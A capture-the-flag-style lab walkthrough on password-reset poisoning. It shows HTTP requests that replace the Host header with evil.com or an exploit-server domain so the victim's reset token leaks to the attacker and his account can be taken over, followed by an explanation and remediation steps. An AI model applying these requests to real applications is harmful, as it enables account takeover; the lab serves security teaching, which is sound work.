










# Lab: Basic password reset poisoning

Password-reset poisoning happens when an application builds the reset-link email using the `Host` header from the request that triggered it, instead of a hard-coded, server-side domain. Since `Host` is attacker-controlled, the attacker can make the application send the victim a legitimate-looking reset email whose link actually points at a server the attacker owns — complete with the victim's valid reset token attached as a query parameter.

This lab's victim, `carlos`, will click any link he receives by email. The objective is to capture his reset token and use it to set a new password for his account.

## 1. Trigger a normal password reset and inspect the email

Log in to your own account (`wiener:peter`), go to the forgotten-password flow, and submit your own username.



Open the exploit server's email client to see the message the application sent. The reset link is built from the application's real domain:



Following the link lands on a normal new-password form:


## 2. Send the reset request to Repeater and change Host

Intercept the `POST /forgot-password` request and send it to Repeater. With the legitimate `Host`, the request succeeds normally:

```http
POST /forgot-password HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=...&username=wiener
```



Now replace `Host` with an attacker-controlled domain (here, `evil.com`) and resend. The application still accepts the request:

```http
POST /forgot-password HTTP/2
Host: evil.com
Content-Type: application/x-www-form-urlencoded

csrf=...&username=wiener
```



## 3. Confirm the reset link now points at the attacker domain

Check the email client again. This confirmed email's reset link is built straight from the poisoned `Host`:



## 4. Repeat the request targeting Carlos, with Host pointed at your exploit server

Resend the same request, this time with `username=carlos` and `Host` set to your exploit-server domain so the resulting link is something you can actually receive traffic on:

```http
POST /forgot-password HTTP/2
Host: exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded

csrf=...&username=carlos
```



## 5. Carlos clicks the link — capture the request in the exploit server's access log

Carlos "clicks" the poisoned link automatically in the background of the lab. His request — carrying his own valid reset token — lands in your exploit server's access log, since the link now points there:



## 6. Use Carlos's token against the real application

Copy the `temp-forgot-password-token` value from the log line, and visit the real application's reset-password URL with that token instead of your own:

```
https://YOUR-LAB-ID.web-security-academy.net/forgot-password?temp-forgot-password-token=CARLOS_TOKEN
```



Set a new password.

## 7. Log in as Carlos

Log in with username `carlos` and the password you just set.





The lab is solved once you've authenticated as Carlos.

## Why it works

The reset email's link is built dynamically from the `Host` header of the request that requested the reset — not from a fixed, trusted domain configured on the server. An attacker who triggers the reset for a victim username, while supplying their own domain as `Host`, gets the application to mail the victim a link that leaks the victim's own reset token straight to the attacker's server.

## Remediation

- Never derive password-reset (or any security-sensitive) URLs from the `Host` header. Use a statically configured, trusted base URL on the server side.
- Bind reset tokens to the session or account that requested them, and expire them quickly, so a leaked token has a narrow window of use.
- Validate `Host` against an allow-list at the application layer regardless of what any front-end proxy already does.
